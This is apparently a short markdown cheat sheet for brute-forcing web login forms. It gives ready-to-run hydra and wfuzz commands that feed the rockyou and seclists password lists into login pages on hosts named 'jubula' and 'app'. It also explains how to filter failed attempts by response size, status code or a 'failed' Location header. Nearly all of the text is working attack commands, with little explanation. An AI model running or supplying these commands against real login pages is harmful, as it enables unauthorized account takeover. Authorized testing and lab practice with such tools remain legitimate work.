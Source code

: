 # Password brute force

```bash
sudo hydra -L  users.txt -P rockyou.txt jubula http-post-form "/login.php:username=^USER^&password=^PASS^:S=302" -o result.txt
```

```bash
sudo hydra -L  users_jubula.txt -P rockyou.txt jubula http-post-form "/login.php:username=^USER^&password=^PASS^:F=Incorrect Login Information" -o result.txt
```

```bash
systemd-run --scope -p MemoryLimit=8G   wfuzz -w rockyou.txt -d "username=robert&password=FUZZ&submit=" --hh 5431  http://jubula/login.php
```

```bash
wfuzz -w /usr/share/seclists/Passwords/xato-net-10-million-passwords-100000.txt -d "username=admin&password=FUZZ" --hc 404  http://app/login
```

## If the site returns 302 

### If  the site returns authentication result in header.Location

Example: 
```
Location: /login?message=Authentication%20failed
```

We need exclude result where response has Authentication failed in Location header.
We exclude all results where r.headers.response.location contains  text "failed"
```bash
wfuzz -w  /usr/share/seclists/Passwords/xato-net-10-million-passwords-100000.txt -d "username=admin&password=FUZZ" --filter "r.headers.response.location\!~'failed'" http://app/login
```


## References
1. https://wfuzz.readthedocs.io/en/latest/user/advanced.html